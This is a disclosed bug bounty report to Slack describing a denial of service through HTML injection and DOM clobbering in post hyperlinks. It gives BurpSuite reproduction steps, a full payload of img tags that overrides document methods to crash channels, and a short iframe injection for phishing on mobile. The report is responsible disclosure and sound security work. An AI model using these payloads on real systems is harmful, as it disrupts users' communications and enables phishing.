 # Denial of Service via Hyperlinks in Posts

## Report Details
- **Report ID**: 1077136
- **URL**: https://hackerone.com/reports/1077136
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-12T16:56:29.211Z
- **Disclosed**: 2021-10-03T13:52:10.667Z

## Reporter
- **Username**: joaovitormaia
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
###Summary
Via html injection its possible to override all document functions, causing the application to crash because its using the element as a function.

###Brief explanation of how its possible override document functions with html injection:
In some html elements, the name attribute becomes a property on  the document object, so if ```<img src=x name="xyz">``` is inserted on the DOM, its created a reference for this element: ```document.xyz```. For some reason, if the name is the name of a function that already exists on the document object, its get overrided, so if ```<img src=x name="write">``` its inserted on the page, ```document.write````becomes the reference of the html element.

###PoC
Required tools:
1. BurpSuite

Repro Steps: 
 Click on the ```Create Post``` feature

{F1154882}

 Add any title and any content

 Select the content and click on the create link feature

{F1154880}

 Add any link:

{F1154891}

 Click on ```Ok``` and  intecept the request on burpsuite

 Replace the ```link``` property to the following one(as screenshot shows):

```
https://xyz.com\"><img src=x name='constructor' /><img src=x name='adoptNode' /><img src=x name='append' /><img src=x name='captureEvents' /><img src=x name='caretRangeFromPoint' /><img src=x name='clear' /><img src=x name='close' /><img src=x name='createAttribute' /><img src=x name='createAttributeNS' /><img src=x name='createCDATASection' /><img src=x name='createComment' /><img src=x name='createDocumentFragment' /><img src=x name='createElement' /><img src=x name='createElementNS' /><img src=x name='createEvent' /><img src=x name='createExpression' /><img src=x name='createNSResolver' /><img src=x name='createNodeIterator' /><img src=x name='createProcessingInstruction' /><img src=x name='createRange' /><img src=x name='createTextNode' /><img src=x name='createTreeWalker' /><img src=x name='elementFromPoint' /><img src=x name='elementsFromPoint' /><img src=x name='evaluate' /><img src=x name='execCommand' /><img src=x name='exitFullscreen' /><img src=x name='exitPointerLock' /><img src=x name='getElementById' /><img src=x name='getElementsByClassName' /><img src=x name='getElementsByName' /><img src=x name='getElementsByTagName' /><img src=x name='getElementsByTagNameNS' /><img src=x name='getSelection' /><img src=x name='hasFocus' /><img src=x name='importNode' /><img src=x name='open' /><img src=x name='prepend' /><img src=x name='queryCommandEnabled' /><img src=x name='queryCommandIndeterm' /><img src=x name='queryCommandState' /><img src=x name='queryCommandSupported' /><img src=x name='queryCommandValue' /><img src=x name='querySelector' /><img src=x name='querySelectorAll' /><img src=x name='releaseEvents' /><img src=x name='webkitCancelFullScreen' /><img src=x name='webkitExitFullscreen' /><img src=x name='write' /><img src=x name='writeln' /><img src=x name='getAnimations' /><img src=x name='exitPictureInPicture' /><img src=x name='replaceChildren' /><img src=x name='appendChild' /><img src=x name='cloneNode' /><img src=x name='compareDocumentPosition' /><img src=x name='contains' /><img src=x name='getRootNode' /><img src=x name='hasChildNodes' /><img src=x name='insertBefore' /><img src=x name='isDefaultNamespace' /><img src=x name='isEqualNode' /><img src=x name='isSameNode' /><img src=x name='lookupNamespaceURI' /><img src=x name='lookupPrefix' /><img src=x name='normalize' /><img src=x name='removeChild' /><img src=x name='replaceChild' /><img src=x name='addEventListener' /><img src=x name='dispatchEvent' /><img src=x name='removeEventListener' /><img src=x name='__defineGetter__' /><img src=x name='__defineSetter__' /><img src=x name='hasOwnProperty' /><img src=x name='__lookupGetter__' /><img src=x name='__lookupSetter__' /><img src=x name='isPrototypeOf' /><img src=x name='propertyIsEnumerable' /><img src=x name='toString' /><img src=x name='valueOf' /><img src=x name='toLocaleString' />
```

{F1154883}

Share the post on any channel:

{F1154884}

After that the application crash when you access the channel ou direct message:

{F1154881}

Its also pretty hard to navigate to another channel, so in many cases the slack application its all crashed(ex: when the user opened the message details and then the attacker change the content to the above payload)
The only way to stop the channel from crashing its deleting on editing the post.
###Observations
The desktop application its also affected
On the mobile application its possible to inject iframes so a phishing attack its also possible using this payload ```https://xyz.com\"><iframe>```:

{F1154910}

*I'm showing you guys the mobile impact as well because its probably the same entry point, so resolving one issue automatically solve the other

###Useful links
https://medium.com/@terjanq/dom-clobbering-techniques-8443547ebe94
https://portswigger.net/web-security/dom-based/dom-clobbering

## Impact

Its possible to disable a channel or a message conversation, and in some scenarios its possible to crash the entire slack application.

## Attachments
- createlinkfunction.PNG
- crash.PNG
- postprint.PNG
- request.PNG
- share.PNG
- link.PNG
- de5f8eb6-333c-4408-bd74-c83fd0626332.jpg
